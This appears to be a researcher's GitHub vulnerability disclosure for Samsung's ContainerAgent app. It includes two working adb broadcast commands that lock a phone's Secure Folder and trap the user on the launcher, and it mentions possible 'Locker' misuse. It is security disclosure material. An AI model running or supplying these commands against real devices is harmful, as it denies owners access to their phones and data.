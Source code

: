 # Samsung ContainerAgent Vulnerability
Due to an unprotected intent in the ContainerAgent app, a Samsung smartphone can become temporarily bricked. This vulnerability can be used to create a Locker.

# How To
**Lock Secure folder**
```bash
adb shell am broadcast -a com.samsung.android.knox.containeragent.LocalCommandReceiver.ACTION_COMMAND --ei "com.samsung.android.knox.containeragent.LocalCommandReceiver.EXTRA_COMMAND_ID" 1001 --ei "android.intent.extra.user_handle" 150
```

**Go back to launcher**
```bash
adb shell am broadcast -a com.samsung.android.knox.containeragent.LocalCommandReceiver.ACTION_COMMAND --ei "com.samsung.android.knox.containeragent.LocalCommandReceiver.EXTRA_COMMAND_ID" 1002 --ei "android.intent.extra.user_handle" 0
```

# Result
The user will be stuck in the launcher and his Secure Folder will be locked all the time.

# Disclosure
- 04/02/19: Initial finding by [@fs0c131y](https://twitter.com/fs0c131y)
- 11/03/19: Responsible disclosure to the Samsung Security Team
- 18/03/19: The Samsung Security Team considered this issue as no/little security impact

# Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

# Credits
The investigation and the POC has been made with ❤ by [@fs0c131y](https://twitter.com/fs0c131y)